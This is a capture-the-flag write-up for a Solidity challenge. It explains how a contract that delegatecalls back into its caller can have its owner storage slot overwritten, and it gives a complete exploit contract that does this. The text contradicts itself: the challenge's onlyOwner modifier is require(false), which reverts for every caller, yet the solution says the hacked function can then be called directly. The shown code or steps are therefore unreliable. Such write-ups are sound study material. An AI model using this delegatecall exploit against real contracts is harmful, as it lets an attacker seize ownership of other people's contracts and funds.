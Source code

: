 # d31eg4t3

## Challenge

We receive one contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3{
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}
```

## Solution

The issue we have here is the handling of storage during a delegate call. The hackMe() function delegates whatever calldata we have back to us. As delegatecall uses the callers storage in the functions of the callee, we can just write a function in our contract that overwrites owner with our address. If we copy the storage layout of the target, this is super easy. I just wrote a simple exploit contract for this:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Target.sol";

contract attack {
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    D31eg4t3 target_contract;

    constructor(address target_addr)
    {
        target_contract = D31eg4t3(target_addr);
    }

    function attack_fun() public 
    {
        target_contract.hackMe(abi.encodeWithSelector(this.overwrite.selector));
    }

    function overwrite() public
    {
        owner = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;
    }
}
```

after this you can just directly call the hacked function.